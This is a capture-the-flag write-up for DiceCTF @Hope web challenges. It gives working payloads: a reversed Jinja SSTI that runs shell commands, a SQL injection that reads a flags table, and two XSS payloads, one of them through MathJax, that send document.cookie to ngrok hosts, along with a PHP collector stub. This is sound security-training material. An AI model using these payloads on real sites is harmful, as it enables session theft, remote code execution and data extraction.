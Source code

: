 # DiceCTF @Hope writeup

Mostly solved the web challenges with Task_Hashed

---------------------------------------------------------------------------------------------------

## Reverser

the website is a text reverser and from the source code we can tell its an SSTI so we just have to put a regular SSTI payload but just reversed

regular payload: 
```
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}

{{config.__class__.__init__.__globals__['os'].popen('cat flag-ccba9605-afeb-49a6-8aac-d56bac20705b.txt').read()}}
```
supplied reversed payload:

```
}}  )(daer.)'sl'(nepop.]'so'[__slabolg__.__tini__.__ssalc__.gifnoc {{
    
}})(daer.)'txt.b50702cab65d-caa8-6a94-befa-5069abcc-galf tac'(nepop.]'so'[__slabolg__.__tini__.__ssalc__.gifnoc{{
```


---------------------------------------------------------------------------------------------------

## Pastebin 

the important part of this challenge is :

```python 
    if (paste.search(/<.*>/) !== -1) {
        return res.redirect('/flash?message=Illegal characters in paste!');
        }
```

My solution : 

```html
<img src=x onerror=javascript:document.location='http://37b0-41-225-85-6.ngrok.io/ok.php?c='+document.cookie;
```

PS : the reason this works is because the browser will automatically try to fill in with the > tag 

with ok.php :
```php
<?php 
    $cookies = $_GET["c"];
?>
``` 
---------------------------------------------------------------------------------------------------

## oeps

this challenge requires to put a palindrome string to add them to the pending table

notice there's two ways we can control user input. either search for approved sentences or pass our own but it has to be a palindrome

since the search is blocking special chars we can try with the pending sentences input

so we can try some sql injections

this is what the query looked like 

```python 
connection.execute('''
        insert into pending (user, sentence) values ('%s', '%s');
    ''' % (
        token,
        submission
))
```


payload: ```')--```
payload supplied : ```')---)'```

and we can see we get a blank input meaning our payload worked! and we know the flag is in the flags table so we can use the ```'%'||(query)||'%'``` to get an element from another table

payload : ```%'||(SELECT flag FROM flags)||'%');---;)'%'||)sgalf MORF galf TCELES(||'% ``` 

the final query looks like this 

```sql
insert into pending (user, sentence) values ('1234', '%'||(SELECT flag FROM flags)||'%');---;)'%'||)sgalf MORF galf TCELES(||'%');
```

```
flag : hope{ecid_gnivlovni_semordnilap_fo_kniht_ton_dluoc}
```

------------------------------------------------------------------------------------------------------------------------------------

## mk

Abusing MathJax renderer for an xss by supplying the source to the mathjax file

PS: the reason this works is because the mathjax renderer parses the script provided and executes it, otherwise if u change the src to something else that doesnt render it , it wouldn't work ( try it locally ) 

payload :

```javascript
<script src="https://mk.mc.ax/MathJax/MathJax.js">document.location='http://02f6-41-225-148-43.ngrok.io/ok.php?c='+document.cookie;</script>
```


with ok.php :
```php
<?php 
    $cookies = $_GET["c"];
?>
``` 
